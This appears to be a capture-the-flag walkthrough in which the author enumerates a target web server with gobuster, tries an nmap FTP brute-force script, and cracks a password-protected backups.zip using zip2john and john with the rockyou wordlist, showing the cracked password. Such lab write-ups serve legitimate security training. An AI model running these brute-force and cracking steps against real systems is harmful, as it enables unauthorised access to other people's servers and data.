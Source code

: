 We can enumerate the website, with gobuster

`gobuster dir -u http://IP -w common.txt -t 15`

output: 

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/webmasters (Status: 301)
```
In robots.txt we have the directory `/webmasters` disallowed. So lets bruteforce that

`gobuster dir -u http://IP/webmasters -w common.txt -t 15`

output:

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/admin (Status: 301)
/backups (Status: 301)
/index.html (Status: 200)
```
These lead to nothing, lets try with a bigger wordlist and see whats in `/backups` 

I ran two instances of gobuster:

`gobuster dir -u http://IP/webmasters/backups/ -w directory-list-2.3-medium.txt -t 15 -x zip,7z,gzip`
and
`gobuster dir -u http://IP/webmasters/backups/ -w directory-list-2.3-medium.txt -t 15 -x js,php,py,txt,html,db`

And let it go for a while. I tried bruteforcing ftp with nmap scripts as well:

`nmap --script ftp-brute -p 21 IP`

Looking for zips with gobuster shows `backups.zip`, after downloading it I see that it is password protected, this is when we use `zip2john backups.zip > ziphash` to get a hash file ready for john to crack.

Then simply run john and you should get this output 
```
$ john --wordlists=rockyou.txt ziphash

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
00385007         (backups.zip/backups/note.txt)
1g 0:00:00:02 DONE (2021-01-09 05:05) 0.4291g/s 6122Kp/s 6122Kc/s 6122KC/s 00661690..00257gbjr
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Simply use the `--show` option and open the zip.

